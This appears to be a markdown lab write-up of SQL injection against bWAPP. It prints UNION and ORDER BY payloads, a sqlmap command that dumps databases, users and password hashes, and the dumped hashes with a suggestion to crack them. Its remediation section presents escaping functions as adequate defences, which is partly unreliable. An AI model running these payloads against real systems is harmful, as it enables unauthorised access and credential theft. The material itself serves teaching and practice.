





# 1. Low
On first look, we found that there was text box. I tried to input `a` value and search it.



Input `a` into text box and search. The client will send to server with following variables: `var title = a` and `var action = search`.


I tried with Single Quote (`' or %27`) which usually causing the SQL Injection vulnerable. And following picture is what we expected error Message.



Using Order by clause to determine the number of column. I am guessing 8 column:
- Payload: `'ORDER+BY+8--+`
- Result will be: `Error: Unknown column '8' in 'order clause'`
=> So I tried with  guessing 7 columns. The data appeared which means that we knows that the database have 7 columns.



Select version of Ubuntu and database in current use.
- payload: `'UNION+SELECT+1,group_concat(@@version,'|',database()),3,4,5,6,7--+`



---
# 2. Medium
In this case, lab using [addslashes()](https://www.php.net/manual/en/function.addslashes.php) function to filter which is convert `'` to `\'` or other risk character that causing escape string of SQL. 

---
# 3. Script Supported
In this case, SQL Injection Techniques has already have [SQLMap](https://sqlmap.org/) which is a powered tool develop in python so that I should not write a script because of not better than [SQLMap](https://sqlmap.org/) 😁
- `sqlmap.py -u http://bee.bug:80/bWAPP/sqli_1.php?title=%27&action=search --hostname --tables --users --dbs --passwords --columns --cookie=PHPSESSID=c77d6e1e60e432177d833db76d92d0a9;security_level=0`


We known the credentials in hashes:
```shell
[*] debian-sys-maint [1]:
    password hash: *D4749CBC6F877E93F4A942F787C272224CC91D4A
[*] root [1]:
    password hash: *07BDCCE30E93A12AA2B693FD99990F044614A3E5
```
Trying to use [Crackstation](https://crackstation.net/) to see if we can have cleartext?


And finally, all reports that output in following path: 
- Environment variable path: `%LocalAppData%\sqlmap\output\<host_name_scanned>`
- Shell folder: `shell:Local AppData\sqlmap\output\<host_name_scanned>`

---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)